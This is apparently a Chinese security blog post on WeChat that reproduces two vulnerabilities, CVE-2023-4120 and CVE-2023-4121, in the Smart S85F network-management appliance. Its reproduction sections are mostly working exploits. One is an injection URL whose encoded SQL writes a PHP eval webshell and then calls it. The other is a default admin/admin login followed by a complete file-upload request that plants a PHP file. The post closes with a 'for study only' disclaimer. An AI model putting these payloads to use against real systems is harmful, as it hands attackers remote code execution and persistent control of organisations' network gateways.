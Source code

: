#  Smart S85F管理系统 最新漏洞两枚 CVE-2023-4120和CVE-2023-4121

原创 不够安全  [ 不够安全 ](javascript:void\(0\);)

**不够安全** ![]()

微信号 gh_72a34cefa21c

功能介绍 公众号不定期分享一些web安全知识

____

___发表于_

收录于合集

#Web安全 32 个

#Web渗透 27 个

_**简介**_  

百卓Smart
S85F是Smart系列上网行为管理设备中的明星产品，它是专为中小型企业量身打造的专业级新品，它在功能设计方面充分考虑了中小型企业对网络设备高性价比的需求，将多种应用功能集于一身，包括网络应用封堵、流量控制、链路负载均衡、网页分类阻断、上网内容审计、防火墙、VPN等，可帮助企业有效减少网络建设成本、规范员工上网行为、提升网络带宽利用率、避免企业信息泄露、增强网络稳定性和安全性。

 _ **CVE-2023-4120  SQL注入导致的文件写入GetShell**_

 _ **漏洞描述**_  

北京百绰智能S85F管理平台发现漏洞，漏洞编号为20230722，级别为严重。此问题影响文件 importhtml.php 的某些未知处理，对参数 sql
的操作会导致命令注入，攻击可能是远程发起的，该漏洞已向公众披露并可能被使用。

 _ **影响版本**_

Smart S85F

 _ **漏洞复现**_  

  1. SQL命令注入

  * 

    
    
    https://xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUyNDU1MTU1NDU1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiMjAzZjNlIGludG8gb3V0ZmlsZSAnL3Vzci9oZGRvY3MvbnNnL2FwcC9tb2R1bGUuY2xhc3MucGhwJw==

2.访问shell地址

  * 

    
    
    http://xxx.xxx.xxx/app/module.class.php?cmd=phpinfo();

![]()

 _ **CVE-2023-4121 后台任意文件上传**_

 _ **漏洞描述**_  

北京百绰智能S85F管理平台发现漏洞，漏洞编号为20230722，级别为严重。受影响的是未知功能，对参数 file_upload
的操作会导致上传不受限制，可以远程发起攻击。该漏洞已向公众披露并可能被使用。

 _ **影响版本**_  

Smart S85F

 _ **漏洞复现**_

1.登录后台，默认账户密码admin/admin，登录后替换cookie上传

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /useratte/web.php? HTTP/1.1Host: xxx.xxx.xxx:8443Cookie: PHPSESSID=3b0048dc500aea61e25f3b1de573f65dUser-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like GeckoAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328Content-Length: 611Origin: https://xxx.xxx.xxx:8443Referer: https://xxx.xxx.xxx:8443/sysmanage/licence.phpUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: same-originSec-Fetch-User: ?1Te: trailersConnection: close  
    -----------------------------42328904123665875270630079328Content-Disposition: form-data; name="file_upload"; filename="2.php"Content-Type: application/octet-stream  
    <?php phpinfo(); ?>-----------------------------42328904123665875270630079328Content-Disposition: form-data; name="id_type"  
    1-----------------------------42328904123665875270630079328Content-Disposition: form-data; name="1_ck"  
    1_radhttp-----------------------------42328904123665875270630079328Content-Disposition: form-data; name="mode"  
    import-----------------------------42328904123665875270630079328

![]()

2.上传后shell地址：http://xxx.xxx.xxx/upload/2.php

![]()

 _ **参考链接**_  

  *   *   *   *   * 

    
    
     https://nvd.nist.gov/vuln/detail/CVE-2023-4120https://github.com/RCEraser/cve/blob/main/rce.mdhttps://nvd.nist.gov/vuln/detail/CVE-2023-4121https://github.com/torres14852/cve/blob/main/upload.mdhttps://www.byzoro.com/

 **仅供学习交流，勿用作违法犯罪！！！**  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

